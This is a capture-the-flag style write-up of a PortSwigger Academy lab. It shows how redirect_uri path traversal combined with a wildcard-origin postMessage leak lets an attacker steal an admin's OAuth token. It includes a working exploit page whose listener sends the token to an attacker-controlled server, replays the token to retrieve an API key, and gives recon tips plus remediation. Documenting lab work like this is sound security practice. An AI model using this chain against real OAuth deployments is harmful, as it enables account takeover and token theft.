


# Stealing OAuth Access Tokens via a Proxy Page

**Platform:** PortSwigger Web Security Academy<br>
**Category:** Authentication / OAuth<br>
**Difficulty:** Expert<br>
**Date Solved:** 2026-10-30<br>
**Severity:** Critical

## Summary

The OAuth-based "login with social account" flow on the blog client validates the `redirect_uri` parameter against a whitelist using a prefix/string match rather than strict URL parsing — the same root flaw present in the twin "open redirect" variant of this lab. Appending a `/../` path traversal sequence to the whitelisted `redirect_uri` is accepted by the OAuth server but resolved literally by the browser, letting the OAuth token (delivered as a URL fragment) be redirected away from the legitimate `/oauth-callback` endpoint to any other path on the same trusted domain.

Unlike the open-redirect variant, this app has no `path=`-style redirect parameter to chain onto. Instead, the blog's comment-form page — loaded as an iframe on every blog post — broadcasts its own `window.location.href` via `postMessage()` to a wildcard target origin (`'*'`), with no check on who receives it. By traversing `redirect_uri` to land on this comment-form page instead of `/oauth-callback`, the access token ends up in that page's URL fragment, and the page itself leaks it to any listener via the insecure broadcast. An attacker-controlled page just needs a `message` event listener to receive it, with no redirect or domain change required for exfiltration. The stolen token was then replayed against the `/me` userinfo endpoint to retrieve the victim's (admin's) API key — resulting in full account takeover.

## Affected Component

- OAuth authorization endpoint: `GET /auth?client_id=...&redirect_uri=...` (`redirect_uri` whitelist validation)
- Blog comment form: `GET /post/comment/comment-form` (iframe page broadcasting `window.location.href` via `postMessage(data, '*')`)
- Userinfo endpoint: `GET /me` (trusts any valid Bearer token with no additional binding to the original session)

## Steps to Reproduce

1. Log in via "My account" → social login (`wiener:peter`) and capture the OAuth flow in Burp proxy history. Note the `GET /me` request for later — it returns the authenticated user's `apikey` in its response body.
2. Capture the `GET /auth?client_id=...&redirect_uri=...` request from the login. Send to Repeater.
3. Append a `/../` traversal sequence to the whitelisted `redirect_uri` path, e.g.:
   ```
   redirect_uri=https://LAB-ID.web-security-academy.net/oauth-callback/../test
   ```
   → `302 Found`, `Location: https://LAB-ID.web-security-academy.net/test#access_token=...` — confirms the token can be steered off `/oauth-callback` to any other path on the trusted domain.
4. Browse the blog and open a post. In Burp's proxy history, locate the automatically-loaded iframe request `GET /post/comment/comment-form`. Inspect the response body's `<script>` block:
   ```js
   parent.postMessage({
       type: 'onload',
       data: window.location.href
   }, '*')
   ```
   This confirms the page broadcasts its own full URL — including any fragment — to any listener, with no origin restriction (`'*'`).
5. On the exploit server, build a page that loads the traversed auth request inside an iframe, with `redirect_uri` pointed at the comment-form page instead of `/oauth-callback`, and a listener to catch the broadcast:
   ```html
   <iframe src="https://oauth-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=CLIENT_ID&redirect_uri=https://LAB-ID.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=447058413&scope=openid%20profile%20email"></iframe>

   <script>
   window.addEventListener('message', function(e) {
       fetch('/' + encodeURIComponent(e.data.data));
   }, false);
   </script>
   ```
6. Store the exploit and click "View exploit" to confirm the iframe loads cleanly and the listener fires (the `fetch()` call itself 404s against the exploit server — that's expected, it's only used to get the leaked URL into the access log).
7. Deliver the exploit to the victim (admin). Check the exploit server's access log for a request path containing the full comment-form URL with `#access_token=...` in it, tagged with the victim's user-agent.
8. In Repeater, replace the `Authorization: Bearer` header on the parked `GET /me` request with the stolen token. Send — response includes the admin's `apikey`.
9. Submit the API key to solve the lab.

## Proof of Concept

**Exploit server access log showing the victim's leaked `postMessage` broadcast — the full comment-form URL including `#access_token=...`, logged against the victim's (admin) user-agent, confirming the wildcard-origin broadcast successfully exfiltrated the token**


**Repeater `GET /me` response using the stolen token — returns the admin's `apikey`, `sub`, `name`, and `email`**


## Root Cause

Two independent flaws combined into a critical chain:

1. **Improper `redirect_uri` validation at the OAuth server.** The whitelist check used substring/prefix matching instead of exact match or proper URL parsing, so it validated the *string* but not the *resolved path*. A browser normalizes `/oauth-callback/../post/comment/comment-form` to `/post/comment/comment-form` — a mismatch between how the validator and the consumer interpret the same input.
2. **Insecure cross-origin messaging on the client application.** The comment-form iframe calls `postMessage(data, '*')`, broadcasting its own URL to any origin that cares to listen, instead of restricting delivery to a specific trusted parent origin.

Neither flaw alone is exploitable to steal a token meaningfully; the chain is what turns a page's own internal convenience broadcast and a redirect-validation gap into full account takeover — with the added danger that, unlike an open redirect, there is no server-side 302 to notice in logs. The exfiltration happens client-side, silently, inside the victim's own browser.

## Impact

**Technical**
- Full compromise of any victim's OAuth session: their access token can be exfiltrated via a passive broadcast and replayed against the userinfo endpoint to retrieve PII and the API key, with no interaction from the victim beyond visiting a link.
- No server-side redirect occurs during exfiltration, making this chain harder to detect via redirect/Location-header monitoring than the open-redirect variant.

**Business / Real-World**
- Account takeover of any user who can be lured into clicking a link (phishing, malicious ad, compromised third-party content embedding the link) — including privileged/admin accounts, as demonstrated here.
- Depending on token scope and lifetime in a real deployment, this could extend to data exfiltration, unauthorized actions performed as the victim, or further pivoting if the API key grants broader access than the web session.

**Scope**
- Any client application relying on this OAuth server's redirect validation is at risk if it exposes a page anywhere on the same trusted domain that broadcasts its own URL/state via `postMessage` with a wildcard target origin — even in a feature entirely unrelated to authentication.

## Remediation

- Validate `redirect_uri` with an exact string match against a pre-registered list of complete, literal URIs — never substring/prefix matching, and never permit path traversal sequences to pass validation.
- Never use `'*'` as the `targetOrigin` argument to `postMessage` when the message may contain sensitive data (including the page's own URL/fragment) — explicitly specify the expected parent origin.
- Treat OAuth tokens as sensitive even in fragments; consider short token lifetimes and binding tokens to the session/device that initiated the flow to limit replay value if exfiltrated.

## Lessons Learned & Patterns

- Whitelist checks that validate a *string* rather than the *resolved value* are a recurring class of bug — always test appending traversal sequences, extra path segments, or encoded characters to an otherwise-whitelisted value.
- Bug #2 in an OAuth token-theft chain is not always an open redirect. Once `redirect_uri` traversal to an arbitrary page on the trusted domain is confirmed, enumerate candidate bug #2 endpoints in order of exploitability:
  1. **Open redirect param** (`path=`, `url=`, `redirect=`, `next=`, `continue=`, `return=`, `dest=`, `target=`, `goto=`) — fastest to confirm (direct 302, paste-and-check).
  2. **Wildcard-origin `postMessage` broadcast** — any page embedded as an iframe elsewhere in the app (comment forms, widgets, embeds) is a candidate; grep its JS for `postMessage(` and check the target-origin argument.
  3. **Referer leak** — a page that makes a request to a third-party resource while the token is still in the URL, leaking it via the `Referer` header.
  4. **Any other URL-reflecting sink** — error pages that echo the request URI, debug endpoints, analytics pingbacks.
- Fast recon for candidates, without manually clicking every page: filter Burp HTTP history/Site map for the param names above; install Param Miner (BApp store) to flag hidden redirect-style params; grep JS bundles for `window.location`, `location.href =`, and `postMessage(` with `'*'`; crawl with `gau`/`katana` and scan the raw URL list for the same param names.
- OAuth tokens delivered via URL fragment rely entirely on the trustworthiness of whatever page receives them; any way to redirect that delivery elsewhere — a redirect *or* a page that leaks its own state — defeats the fragment's confidentiality.
- Client-side exfiltration via `postMessage` leaves no server-side redirect trail, unlike an open-redirect chain — worth calling out separately in reports since detection/monitoring implications differ.

## References

- [PortSwigger Web Security Academy – OAuth Authentication Vulnerabilities](https://portswigger.net/web-security/oauth)
- [PortSwigger – Preventing OAuth Authentication Vulnerabilities](https://portswigger.net/web-security/oauth/preventing)
- [IETF RFC 9700 – Best Current Practice for OAuth 2.0 Security](https://www.rfc-editor.org/rfc/rfc9700.html)
- [IETF RFC 6749 – The OAuth 2.0 Authorization Framework](https://www.rfc-editor.org/rfc/rfc6749.html)
- [MDN – Window.postMessage() security concerns](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage#security_concerns)
- [OWASP – HTML5 Security Cheat Sheet (postMessage section)](https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html#html5-postmessage)
- [MITRE CWE-346 – Origin Validation Error](https://cwe.mitre.org/data/definitions/346.html)
- [MITRE CWE-601 – URL Redirection to Untrusted Site (Open Redirect)](https://cwe.mitre.org/data/definitions/601.html)

**Tags:** #PortSwigger #OAuth #postMessage #OriginValidation #AccountTakeover #Critical
